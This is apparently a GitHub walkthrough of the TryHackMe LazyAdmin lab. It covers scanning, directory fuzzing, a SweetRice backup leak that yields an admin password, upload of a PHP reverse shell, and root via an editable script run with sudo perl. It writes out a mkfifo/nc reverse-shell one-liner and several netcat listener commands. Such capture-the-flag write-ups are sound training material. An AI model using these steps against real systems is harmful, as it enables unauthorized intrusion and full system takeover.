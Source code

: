 # LazyAdmin Room Walkthrough

Link: [TryHackMe LazyAdmin Room](https://tryhackme.com/r/room/lazyadmin)

---

## 1. Scanning for Open Ports

First, let's scan the ports using `Rustscan` and `Nmap`:

![Screenshot 2025-01-21 012352](https://github.com/user-attachments/assets/bdfcd73a-d129-453f-b1cf-2d157d711ea8)

```bash
rustscan -a <target-ip>
```

From the scan results, we identify the following open ports:
- Port 80 (HTTP)
- Port 22 (SSH)

---

## 2. Enumerating the Web Server

Next, use `Nmap` to gather more information about the open ports:

![Screenshot 2025-01-21 012419](https://github.com/user-attachments/assets/9466f616-3641-4b12-9883-1a9e4f6e96f1)

After checking the web page, I found just the default page and nothing there. 
So, I tried to brute-force the page directory.

Using a directory brute-forcing tool like `Ffuf`, `dirb`, or `gobuster`, we will find the `content` page:

```bash
ffuf -u http://<target-ip>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![Screenshot 2025-01-21 012443](https://github.com/user-attachments/assets/83cf4e06-6ebd-4acb-bfc2-b3b0efdc2283)

![Screenshot 2025-01-21 012605](https://github.com/user-attachments/assets/f274d4d2-0456-413c-9f00-7c0fa625d0f3)

We found just a notice, but there's nothing important there. However, now we know that the page is running with a SweetRice application.

Let's enumerate this directory; we might find something important.

![Screenshot 2025-01-21 012457](https://github.com/user-attachments/assets/7f775fe5-366e-4a32-9c4d-ae84c8fc9627)

We discovered a couple of directories and found the admin login page `/as` directory:

![Screenshot 2025-01-21 012548](https://github.com/user-attachments/assets/fca7ee49-66b1-4a33-9948-519272816ab3)

---

## 3. Exploiting SweetRice

After searching, I found two exploits for this application:

### 1. The MySQL Backup File
`https://www.exploit-db.com/exploits/40718`

![Screenshot 2025-01-21 111050](https://github.com/user-attachments/assets/6e25758c-afa6-4c23-a0c9-7f78eeae5624)

We found here that on `/content/inc/mysql_backup/` we will find a MySQL backup file.

![Screenshot 2025-01-21 110950](https://github.com/user-attachments/assets/0938c8c3-da42-4e42-a45e-20e5e39f72a5)

After downloading the file, search for `pass` in the file. Here's what I found:

![Screenshot 2025-01-21 111823](https://github.com/user-attachments/assets/18c47356-816f-41f1-a1c5-dd55a91d4acd)

Here I found admin credentials:
- Username: `manager`
- Password hash: `42f749ade7f9e195bf475f37a44cafcb`

I tried to crack the hash with `crackstation.net`, and the password is: `Password123`.

![Screenshot 2025-01-21 111944](https://github.com/user-attachments/assets/442ba041-077f-4bd3-98ef-92e9a10c6937)

Now let's try to log in:

![Screenshot 2025-01-21 112006](https://github.com/user-attachments/assets/88d85df6-447b-4604-82cf-18254a6e97b7)

And the login was successful.

### 2. Arbitrary File Upload
`https://www.exploit-db.com/exploits/40716`

Here we find that we can upload files to the website.

![Screenshot 2025-01-21 111159](https://github.com/user-attachments/assets/2ba7e4f6-a20e-45f6-a0a9-21c624d1674e)

After reading the code, I found there's an uploading page on `/as/?type=media_center` where we can upload `.php5` files.

![Screenshot 2025-01-21 111254](https://github.com/user-attachments/assets/f4cd87db-b36c-4d25-8598-101e3051c8a4)

Let's get a PHP reverse shell:

![Screenshot 2025-01-21 112516](https://github.com/user-attachments/assets/ffbdc818-0ea1-4037-b1c5-09abd4d4b04c)

Here we found a code for pentestmonkey on GitHub. Just edit the IP and port, make a `.php5` file, and upload it. Here is the file [rev.php5](https://github.com/karim481/LazyAdmin-Room-Walkthrough/blob/main/rev.php5).

![Screenshot 2025-01-21 112545](https://github.com/user-attachments/assets/30c40fe0-5ae7-4e5b-aa68-f6f4ef770cb4)

Listen on your machine with:

```bash
nc -lvnp <your port>
```

Click on the file to run it:

![Screenshot 2025-01-21 113732](https://github.com/user-attachments/assets/8e68e3e2-5e10-4dcf-ba93-fe9829fd4b66)

---

## 4. Privilege Escalation

After we get the reverse shell, let's try to get root.

After some enumeration, I found an interesting thing with sudo files:

```bash
sudo -l
```

We find that we can run `/home/itguy/backup.pl` with sudo perl without a password.

Reading the file, we see it runs `/etc/copy.sh`, which contains this script:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

We can edit the file with our IP and port to get a reverse shell:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your IP> <your port> >/tmp/f" >/etc/copy.sh
```

Now listen with:

```bash
nc -lvnp <your port>
```

Run with sudo:

```bash
sudo perl /home/itguy/backup.pl
```

And here we go, we got root:

![Screenshot 2025-01-21 124425](https://github.com/user-attachments/assets/bab99600-875e-4e18-88b2-cfecce5a0f6f)

![Screenshot 2025-01-21 124433](https://github.com/user-attachments/assets/e685b25f-22c8-45ab-861c-6a66fa6a2216)

---

**Happy Hacking!**
